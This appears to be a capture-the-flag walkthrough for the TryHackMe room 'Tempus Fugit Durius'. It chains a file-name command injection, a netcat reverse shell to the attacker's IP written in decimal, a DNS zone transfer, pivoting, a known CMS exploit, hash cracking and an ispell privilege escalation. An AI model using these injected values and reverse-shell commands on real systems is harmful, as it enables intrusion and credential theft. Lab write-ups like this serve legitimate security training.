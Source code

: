 # Tempus Fugit Durius

https://tryhackme.com/room/tempusfugitdurius

Rated HARD

Bit of a tricky room, with multiple stages.

1. A site is exposed on port 80, with a upload function. The file name is vulnerable to limited RCE (e.g. use burp to change file name to `t.txt;ls -la`) which if nothing goes wrong will feed the response into the message on the following page. With this limited recon can be performed, including reading the sites code.

2. This reveals a limit of 30 characters, and the presence of .txt or .rtf somewhere in the name. This can be abused to establish a netcat connection, e.g. with `t.txt;nc 168462808 44 -e sh`. Note that the ip address of the attack box is converted to its decimal representation (which still works) to reduce character count.

3. On the machine, its obviously a docker container with limited access. However, in /etc/resolv.conf there is an entry for 'mofo.pwn'. This is also referenced in the site folder, where files you upload are sent to 'ftp.mofo.pwn'. Dig is on the machine, and via that you can run `dig axfr mofo.pwn` to get a set of IP addresses.

4. Of these, the ftp IP address is useful (192.168.150.12) and the IP address for a CMS (192.168.150.1). By establishing a proxy forward through this docker container (via chisel, meterpreter, reverse_ssh or whatever) the website on .1 is the Batflat CMS, which has a known authenticated exploit here: https://www.exploit-db.com/exploits/49573

5. The FTP server can either be accessed from the box using the python ftp library, or via the attack box with proxychains. If doing the latter, after connecting to the server (using the credentials from the website code), use the `passive` command to get around the bind port not work over a proxy. On the ftp server is a creds.txt file that contains the admin creds for the batflat CMS instance.

6. With these creds and teh exploit from 4, you can get a reverse shell on the final machine.

At this point its quickest to go straight to root, but if one chooses its also possible to get the user flag first by switching from www-data to the benclover user. This is done by getting the password out of the sqlite database.sdb file the CMS is using, and bruteforcing the hash (-m 3200) with hashcat. This reveals ben's password and you can su to that user.

The privesc to root is possible from benclover OR the www-data user, and involves the SGUID binary on the machine `ispell`, a spellchecker. https://gtfobins.github.io/gtfobins/ispell/ shows how to escape ispell, but you will only have the `adm` group privileges. However, this is enough to access `/var/log/auth.log`, which contains within it a mistype event involving a password string. This is the password for the root account.

